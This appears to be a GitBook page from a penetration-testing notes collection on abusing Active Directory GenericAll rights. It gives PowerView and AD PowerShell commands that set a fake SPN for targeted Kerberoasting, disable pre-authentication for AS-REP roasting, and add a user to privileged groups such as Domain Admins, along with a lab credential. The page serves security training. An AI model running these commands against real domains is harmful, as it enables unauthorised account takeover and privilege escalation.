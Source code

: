 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericAll

## Information

**Full control** over the target account.

| Over a User                                                    | Over a Group                                                 |
| -------------------------------------------------------------- | ------------------------------------------------------------ |
| [Change the account's password](forcechangepassword.md)        | [Add user to the group](genericall.md#add-user-to-the-group) |
| [Targeted Kerberoasting](genericall.md#targeted-kerberoasting) |                                                              |
| [Targeted ASREPRoasting](genericall.md#targeted-asreproasting) |                                                              |

## Exploitation

### Over a User

<figure><img src="../../../../.gitbook/assets/genericall_group_over_user.png" alt=""><figcaption><p>Figure 1: The Information Technology group has GenericAll rights over the user adunn.</p></figcaption></figure>

#### Targeted Kerberoasting

When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account.

{% code overflow="wrap" %}
```powershell
# credentialed object for the currently owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
 
# create a fake SPN for the target user
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
{% endcode %}

Once the SPN is assigned to the target account, we should be able to [Kerberoast](../attacks/kerberoasting.md) it.

#### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/asreproasting.md) it.

```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```

{% tabs %}
{% tab title="PS" %}
```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# check that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```
{% endtab %}
{% endtabs %}

An example of the above method can be found [here](../../../../boxes/boxes/insane/multimaster.md#genericwrite-rights).

#### Change user's password

Check [here](forcechangepassword.md).

### Over a Group

#### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># add user to the domain admins group
</strong><strong>net group '&#x3C;GROUP>' &#x3C;USER> /add /domain
</strong>Add-ADGroupMember -Identity '&#x3C;GROUP>' -Members &#x3C;USER>
Add-DomainGroupMember -Identity '&#x3C;GROUP>' -Members '&#x3C;USER>'
</code></pre>

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall" %}
{% endtab %}
{% endtabs %}
